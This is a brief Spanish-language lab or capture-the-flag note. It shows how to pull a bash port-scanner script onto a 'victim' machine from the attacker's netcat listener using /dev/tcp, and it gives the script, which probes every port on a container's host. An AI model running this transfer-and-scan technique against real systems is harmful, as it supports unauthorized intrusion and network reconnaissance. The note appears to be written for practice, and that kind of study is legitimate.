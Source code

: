 
Nuestra maquina: nc -nlvp 443 < portScanner.sh
Maquina victima: cat < /dev/tcp/10.10.16.3/443 > portScanner.sh
Y despues despues desde la maquina victima, darle permiso de ejecucion con chmod +x portScanner.sh

```shell
#!/bin/bash

function ctrl_c(){
    echo "[!] Saliendo.."
    exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i" 2>/dev/null && echo "[!]Puerto abierto: $i" &

done
```
Esto nos ayudo para hacer un escaneo de puertos desde un contenedor hacia la maquina host